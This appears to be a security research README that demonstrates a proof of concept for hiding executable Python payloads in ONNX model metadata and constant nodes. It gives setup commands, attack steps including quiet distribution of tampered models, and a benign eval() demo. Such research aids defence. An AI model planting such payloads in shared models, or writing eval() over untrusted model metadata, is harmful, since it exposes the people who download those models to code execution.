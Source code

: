 ## Plan of execution - what's the actual risk here?

In order to carry out such an attack, one would have to;

- attach serialised payload to the model (see below)
- provide modified onnx model to community (quietly)
- at a later stage, update a an application or library codebase to deserialise and eval the payload embedded within the model
- even the output of an image could embed the payload to be used in some other tool in a pipeline, by utilising steganography

## Payload vectors / Proof of concept

### Setup
 
```bash
python3.10 -m venv ./.venv
source ./.venv/bin/activate
pip install requirements.txt

# download the onnx model found inside (./models/test/test_sigmoid.onnx) from the onnx official repo;
# https://github.com/onnx/onnx/blob/main/onnx/backend/test/data/node/test_sigmoid/model.onnx
#sha256 - c9ea45be3dd00fd43865a739458c74c1f7c7fd325faf8294009f43ae9c0628dd

# run one of the scripts;

## Vector 1 - payload stored in metadata  
python ./code/metadata-attack-vector/sigmoid_attach_metadata.py
## To execute the payload inside the metadata of the model;
python ./code/metadata-attack-vector/sigmoid_exec.py

## Vector 2 - payload embedded in numpy array 
python ./code/constant-attack-vector/sigmoid_attach_constant.py
## To execute the payload inside the constant node of the model;
python ./code/constant-attack-vector/sigmoid_exec_onnxruntime.py

``` 

### vector #1 - Payload embedded in metadata

A simple trick, a payload may be embedded within the metadata of a model, can be further serialised and/or obfuscated.

Attach payload to an existing model;
```bash
python ./code/metadata-attack-vector/sigmoid_attach_metadata.py
```

The third party can run an `eval()` on the string to execute python code.
```bash
python ./code/constant-attack-vector/sigmoid_exec.py
printing metadata props;
Key: producer_name, Value: print("popping calc.exe")
popping calc.exe
```
